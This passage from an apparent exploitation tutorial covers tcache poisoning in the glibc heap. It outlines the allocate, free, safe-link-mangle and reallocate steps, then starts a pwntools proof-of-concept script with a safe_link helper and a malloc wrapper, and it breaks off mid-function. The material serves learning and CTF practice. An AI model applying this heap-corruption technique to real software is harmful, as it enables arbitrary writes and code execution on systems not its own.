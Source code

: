 Now we need to allocate two chunks, free them and then overwrite the next ptr of the last freed chunk. Something along the lines of:<br>
- allocate chunk0 and chunk1
- free chunk1 and then chunk0
- calculate the safe_link mangling using the addr of chunk0 and the target addr
- allocate chunk0 again and then chunk1 which now points to an attacker controlled destination
<br>

Allocation, freeing and overwriting:<br>
<img src="/assets/images/tcache-poisoning/tcache3.png" style="width:100%; height:100%;" />

Allocating again:<br>
<img src="/assets/images/tcache-poisoning/tcache4.png" style="width:100%; height:100%;" />

Full exploit POC with comments:<br>
```python
#!/usr/bin/python3
from pwn import *
elf = context.binary = ELF("program")

gs = '''
c
'''

context.arch = 'amd64'

def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs, aslr=False)
    if args.REMOTE:
        return remote("address", 12345)
    else:
        return process(elf.path, close_fds=False)

#shellcode = asm('\n'.join([
    
#]))

def safe_link(home, target):
    return (home >> 12) ^ target

def malloc(index: int, size: int, payload: bytes):
    io.sendlineafter(b"> ", b"1")
    io.sendlineafter(b"> ", str(index).encode())
```